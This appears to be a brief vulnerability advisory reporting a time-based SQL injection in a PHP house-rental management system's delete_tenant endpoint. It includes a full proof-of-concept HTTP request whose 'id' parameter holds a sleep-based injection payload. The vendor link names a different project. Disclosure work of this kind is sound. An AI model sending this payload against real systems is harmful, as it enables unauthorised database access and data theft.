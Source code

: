 1.1.house rental management system sql inject

2.Description The system Client doesn't properly sanitise POST parameter, which result into a Ssql inject.

3.Vendor Homepage https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html#google_vignette

4.Author will@webray.com.cn inc

5.Proof of Concept 

(1)The request packet is as follows

POST /rental/ajax.php?action=delete_tenant HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 20
Origin: 
Sec-GPC: 1
Connection: close
Referer: http://127.0.0.1/rental/index.php?page=tenants
Cookie: PHPSESSID=m2d2dle30rvjnncs2tdtn9c37e

id=4+and+sleep(3)--+
![image](https://github.com/will121351/wenqin.webray.com.cn/blob/main/img/house-rental-management-system1.png)
(2)The vulnerability code is as follows

![image](https://github.com/will121351/wenqin.webray.com.cn/blob/main/img/house-rental-management-system2.png)
